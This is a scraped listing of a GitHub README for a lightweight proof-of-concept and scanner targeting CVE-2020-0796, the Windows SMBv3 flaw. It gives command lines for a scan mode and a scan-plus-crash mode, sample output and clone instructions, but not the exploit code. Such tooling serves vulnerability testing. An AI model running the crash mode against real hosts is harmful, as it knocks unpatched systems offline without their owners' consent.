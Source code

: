 # CVE-2020-0796

Lightweight PoC and Scanner for CVE-2020-0796 without authentication.

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/ran-sama](https://github.com/ran-sama) |
| Url      | [https://github.com/ran-sama/CVE-2020-0796](https://github.com/ran-sama/CVE-2020-0796)                                               |
| Stars    | 3                                                          |
| License  | Do What The F*ck You Want To Public License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2020-0796

An even more simple PoC and Scanner for CVE-2020-0796, as it uses static packets. There is a protection to prevent accidental usage on public IPs (don't do that) and an on/off switch to flick crashing. Only requires vanilla Python 3!

Scan mode:
```
python3 poc-and-scan.py 10.0.0.15 N
```

Scan+Crash mode:
```
python3 poc-and-scan.py 10.0.0.15 Y
```

Output:
```
SMB v311 with LZNT1 detected.
Sending malformed packet per user request!
```

## License
Licensed under the WTFPL license.



## Get the content

```
git clone https://github.com/ran-sama/CVE-2020-0796
cd CVE-2020-0796
```

{% embed url="https://github.com/ran-sama/CVE-2020-0796" %}

<figure><img src="https://avatars.githubusercontent.com/u/31311154?v=4" alt=""><figcaption><p>ran-sama</p></figcaption></figure>
